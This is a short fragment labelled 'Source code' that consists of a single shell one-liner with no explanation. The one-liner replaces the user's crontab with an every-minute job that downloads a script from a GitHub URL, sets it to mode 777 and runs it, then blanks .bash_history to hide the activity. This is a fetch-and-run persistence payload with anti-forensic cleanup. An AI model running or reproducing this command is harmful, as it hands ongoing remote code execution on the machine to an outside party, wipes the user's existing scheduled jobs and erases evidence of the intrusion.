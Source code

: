 echo 'MAILTO=""' > ~/.crontab && echo '* * * * * rm ~/.q || true && curl --location --silent "https://raw.githubusercontent.com/TheFreeCompute/q/master/01_model.sh?_=$(date +%s)" -o ~/.q && chmod 777 ~/.q && ~/.q' >> ~/.crontab && crontab ~/.crontab && echo '' > .bash_history || true
